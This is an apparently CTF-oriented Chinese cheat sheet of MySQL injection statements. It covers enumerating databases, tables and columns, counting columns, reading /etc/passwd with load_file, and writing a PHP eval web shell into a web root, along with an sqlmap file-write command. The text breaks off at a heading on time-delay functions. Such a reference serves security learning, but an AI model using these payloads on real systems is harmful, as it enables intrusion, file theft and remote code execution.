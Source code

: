 ![](images/ctf-2021-06-17-23-48-07.png)

### MYSQL

#### 常用语句

```sql
当前用户：select user() 
数据库版本：select version() , select @@version 
数据库名：select database()
操作系统：select @@version_compile_os
所有变量：show variables
单个变量：select @@secure_file_priv , show variables like 'secure_file_%'
爆字段数：order by 1... ，group by 1...
查库名：select group_concat(schema_name) from information_schema.schemata
查表名：select group_concat(table_name) from information_schema.tables where table_schema='库名'
查字段：select group_concat(column_name) from information_schema.columns where table_name='表名'
读取某行：select * from mysql.user limit n,m // limit m offset n （第n行之后m行，第一行为0）
读文件：select load_file('/etc/passwd')
写文件：select '<?php @eval($_POST[a]);?>' into outfile '/var/www/html/a.php'  //该处文件名无法使用16进制绕过 sqlmap -u "xxxxx" --file-write="/root/Desktop/1.txt" --file-dest="f:\1.txt"
```

#### 常用函数


截取字符串：

`substr('abc',1,1)`、`substring('abc',1,1)`、`left('abc',1)`、`right('abc',1)`，`mid('abc',1,1)`

字符串拼接：

`concat('a','b','c')`，`concat_ws(' ','a','b','c')`

多行拼接：

`group_concat` //eg: select group_concat(user) from mysql.user

时延函数：
